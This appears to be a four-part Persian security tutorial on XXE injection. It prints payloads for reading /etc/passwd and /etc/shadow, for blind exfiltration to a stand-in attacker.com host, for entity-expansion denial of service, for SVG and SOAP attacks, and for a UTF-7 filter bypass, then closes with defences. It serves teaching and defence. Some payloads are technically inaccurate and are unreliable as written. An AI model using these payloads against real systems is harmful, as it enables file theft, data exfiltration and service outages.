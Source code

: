 📌 حملات XXE (تزریق XML) - بخش اول  

🔹حمله XXE چیست؟  
حملۀ XXE (XML External Entity Injection) یک آسیب‌پذیری امنیتی در پردازش داده‌های XML است که به مهاجم اجازه می‌دهد به فایل‌های سیستم سرور دسترسی پیدا کند یا با سیستم‌های backend تعامل داشته باشد. در برخی موارد، این آسیب‌پذیری می‌تواند منجر به حمله‌های جعل درخواست سمت سرور (SSRF) یا حتی اختلال در سرویس (DoS) شود.  

🔹 انواع حملات XXE   
1. استخراج فایل‌ها (مثلاً خواندن /etc/passwd)  
2. حملات SSRF (ارسال درخواست به سیستم‌های داخلی)  
3. انتقال داده‌ها به صورت خارج از باند (OOB)  
4. استخراج داده از طریق پیام‌های خطا  

🔹 مثال ساده از XXE:  
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<foo>&xxe;</foo>
در این مثال، مهاجم محتوای فایل /etc/passwd را می‌خواند.  

📌 حملات XXE (تزریق XML) - بخش دوم  

🔹 حملات پیشرفته XXE  

 1. حملات Blind XXE (انتقال داده به صورت خارج از باند)  
در برخی موارد، برنامه پاسخ مستقیمی نشان نمی‌دهد، اما مهاجم می‌تواند داده‌ها را به یک سرور تحت کنترل خود منتقل کند.  

مثال:  
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "file:///etc/passwd">
  <!ENTITY blind SYSTEM "http://attacker.com/?%xxe;">
]>
<foo>&blind;</foo>
در این حالت، محتوای /etc/passwd به سرور مهاجم ارسال می‌شود.  

2. دور زدن کنترل‌های دسترسی (PHP Example)  
با استفاده از فیلترهای PHP، می‌توان فایل‌های محدودشده را خواند:  
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/shadow">
]>
<foo>&ac;</foo>
(در این مثال، فایل /etc/shadow به صورت base64 کدگذاری و خوانده می‌شود.)  

 3. حملات DoS با XXE 
بعضی از payloadهای XXE می‌توانند باعث مصرف بیش از حد منابع سرور شوند:  
<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
  ...
]>
<lolz>&lol9;</lolz>
این حمله باعث ایجاد حجم زیادی از داده‌های تکراری و crash سرور می‌شود.  

📌 حملات XXE (تزریق XML) - بخش سوم  

🔹 حملات پیشرفته XXE (ادامه)  

4. استفاده از XXE در فایل‌های SVG (حملات از طریق تصاویر)  
فایل‌های SVG مبتنی بر XML هستند و می‌توانند حاوی payloadهای XXE باشند:  
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" height="200">
    <image xlink:href="expect://id"></image>
</svg>
اگر سایتی آپلود SVG را بدون فیلتر کردن اجازه دهد، این payload می‌تواند دستورات سیستم را اجرا کند.  

5. استفاده از XXE در پروتکل SOAP (سرویس‌های وب)  
در APIهای SOAP-based نیز می‌توان از XXE سوءاستفاده کرد:  
<soap:Body>
  <foo>
    <![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://attacker.com/"> %dtd;]><xxx/>]]>
  </foo>
</soap:Body>
این payload درخواستی به سرور مهاجم ارسال می‌کند.  

6. استفاده از کدگذاری UTF-7 برای دور زدن فیلترها  
بعضی سیستم‌ها فقط UTF-8 را پردازش می‌کنند، اما با UTF-7 می‌توان برخی فیلترها را دور زد:  
<?xml version="1.0" encoding="UTF-7"?>
+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
+ADwAIQ-ENTITY xxe SYSTEM +ACI-http://hacker.com/+ACI +AD4AXQA+
+ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4

🔹 جمع‌بندی بخش سوم  
- درون SVGها می‌توانند حاوی XXE باشند.  
-حتی APIهای SOAP نیز در معرض خطرند.  
- با تغییر کدگذاری (مثل UTF-7) می‌توان برخی فیلترها را دور زد.  

ادامه در بخش چهارم (پیشگیری و دفاع)...

📌 حملات XXE (تزریق XML) - بخش چهارم (پایانی)  

🔹 روش‌های پیشگیری و دفاع در برابر XXE  

1. غیرفعال کردن پردازش موجودیت‌های خارجی (External Entities)  
در اکثر پردازشگرهای XML (مثل PHP, Java, .NET)، می‌توان این ویژگی را غیرفعال کرد:  

مثال در PHP:  
libxml_disable_entity_loader(true);

مثال در Python (lxml):  
parser = etree.XMLParser(resolve_entities=False)

2. استفاده از Whitelisting برای ورودی‌های XML  
- فقط اجازه‌دهید المان‌ها و attributeهای مورد اعتماد پردازش شوند.  
- از اسکیماهای معتبر (XSD) برای اعتبارسنجی ساختار XML استفاده کنید.  

3. فیلتر کردن محتوای خطرناک  
- بلوک کردن <!DOCTYPE و <!ENTITY در ورودی کاربر.  
- مسدود کردن پروتکل‌های خطرناک مثل file://, php://, expect://.  

4. به‌روزرسانی کتابخانه‌های پردازش XML  
بسیاری از آسیب‌پذیری‌های XXE در نسخه‌های قدیمی کتابخانه‌ها (مثل libxml2) وجود دارند.  

5. استفاده از فرمت‌های جایگزین (JSON به جای XML)  
در بسیاری از موارد، استفاده از JSON به جای XML می‌تواند خطر XXE را حذف کند.  

🔹 نتیجه‌گیری  
حملات XXE می‌توانند منجر به خواندن فایل‌های حساس، حملات SSRF و حتی اختلال در سرویس (DoS) شوند. با غیرفعال کردن موجودیت‌های خارجی و اعتبارسنجی دقیق ورودی‌ها، می‌توان از این حملات جلوگیری کرد.  

✅ امن‌تر کدنویسی کنید! ✅  

✍️نویسنده 
@TryHackBox | The Chaos

#XXE #Prevention #CyberSecurity
